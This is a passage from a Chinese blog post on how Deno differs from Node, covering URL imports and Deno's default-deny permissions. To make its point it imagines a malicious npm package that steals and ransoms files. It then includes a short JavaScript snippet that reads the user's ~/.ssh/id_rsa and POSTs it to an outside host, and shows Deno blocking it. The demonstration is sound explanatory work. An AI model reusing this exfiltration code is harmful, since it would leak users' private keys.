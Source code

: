 我们发现其和我们平常在 webpack 或者 ts 使用 es module 最大的**不同**：

- 可以通过 import url 直接引用线上资源；

- 资源不可省略扩展名和文件名。

关于第 1 点，争议非常大，有人很看好，觉得极大的扩展了 deno 库的范围；有人则不太看好，觉得国内网速的原因，并不实用。大家的看法如何，欢迎在评论区发表 🤔

### 3.安全

如果模块规范是 node 和 deno 最大的不同，那么对安全的处理，则是另外一个让人摸不着头脑的地方。

#### 模拟盗号

在介绍之前我们先思考一下这个场景会不会出现：

我做了一个基于命令行的一键上网工具 `breakwall`，每月 1 个 G 免费流量，然后将压缩后的 JS 代码发布到 npm 上，然后后在各种渠道宣传一波。

羊毛党兴高彩烈的 `cnpm install -g breakwall`，然后每次使用的时候，我偷偷的将诸位的 ssh 密钥和各种能偷的文档及图片偷偷上传到我的服务器，在设定期限到期后，删除电脑上资料，留下一句拿钱换资料，仅支持比特币。

#### 默认安全的 deno

如果你觉得以上情况有可能出现，则会觉得下面的功能很实用。我们先用 deno 执行以下代码：

```js
// index.js
let rsa = Deno.readFileSync(Deno.dir("home") + "/.ssh/id_rsa");

rsa = new TextDecoder().decode(rsa);

fetch("http://jsonplaceholder.typicode.com/posts/1", {
  method: "POST",
  body: JSON.stringify(rsa)
})
  .then((res) => res.json())
  .then((res) => console.log("密钥发送成功，嘿嘿嘿😜"));

console.log("start breakwall...");
```

>  PS: --unstable 是由于 Deno.dir API 不稳定

```bash
> deno run --unstable index.js
```

我们将会得到如下报错信息：

```bash
> deno run --unstable  index.js
error: Uncaught PermissionDenied: access to environment variables, run again with the --allow-env flag
    ...
```

意思就是权限异常，需要访问环境变量，需要加上 `--allow-env`，我们加上这个参数再试一下。

```bash
> deno run --unstable --allow-env index.js
error: Uncaught PermissionDenied: read access to "/Users/zhangchaojie/.ssh/id_rsa", run again with the --allow-read flag
    ...
```
